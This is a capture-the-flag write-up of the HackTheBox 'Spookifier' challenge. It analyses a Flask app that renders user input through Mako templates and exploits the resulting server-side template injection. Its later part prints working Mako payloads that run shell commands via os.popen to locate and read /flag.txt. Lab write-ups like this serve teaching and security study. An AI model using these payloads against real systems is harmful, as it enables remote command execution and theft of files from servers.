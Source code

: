 ```yaml
---
last_update:
    date: 2024-03-08
tags: ['Web', 'SSTI', 'HackTheBox']
---
```


# [Spookifier](https://app.hackthebox.com/challenges/Spookifier)

## 0. Analysis

### 0.1. Playaround
> Take a glance at the web server. An textbox with inputs that will send a query and outputs in the table.

![./1.png](1.png)
<center>Figure 1. Glance at the web server</center>  

### 0.2. Code
> web service runs with `flask` 2.0.0
```Dockerfile
# /Dockerfile:8
RUN pip install Flask==2.0.0 mako flask_mako Werkzeug==2.0.0
```

> flag stores in `/` without obfuscation/encryption.
```Dockerfile
# /Dockerfile:11
COPY flag.txt /flag.txt
```

> input uses template rendering via `mako`.
```py
# /challenge/application/util.py:1
from mako.template import Template

font1 = {
	'A': '𝕬',
	'B': '𝕭',
	'C': '𝕮',
    ...
}

font4 = {
	'A': 'A', 
	'B': 'B',
	'C': 'C',
	...
}

def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        ...

	'''.format(*converted_fonts)
	
	return Template(result).render()

def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
    ...

	return all_fonts
```

## 1. Assumptions

From the code, the template renders without any text-restriction given by font4 since most of characters to build code injections are supported (e.g., `<>%/\{}#$`). 

## 2. Attempts

> Test if the service is available to perform SSTI:
```js
payload = `${{ 5*5 }}`
encodeURIComponent(payload) // %24%7B%7B%205*5%20%7D%7D
```

![./2.png](2.png)
<center>Figure 2. Test if the web service can inject common SSTI payload</center>  

2. Injecting [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#mako) to retrieve system. Fistly, check the location of `flag.txt`:
```js
payload = `\${self.module.cache.util.os.popen('find / -name flag.txt').read()}`
encodeURIComponent(payload)
```

![3](./3.png)
<center>Figure 3. output of he location of <code>flag.txt</code></center>

```js
payload = `\${self.module.cache.util.os.popen('cat /flag.txt').read()}`
encodeURIComponent(payload)
```

![4](./4.png)
<center>Figure 4. flag found.</center>
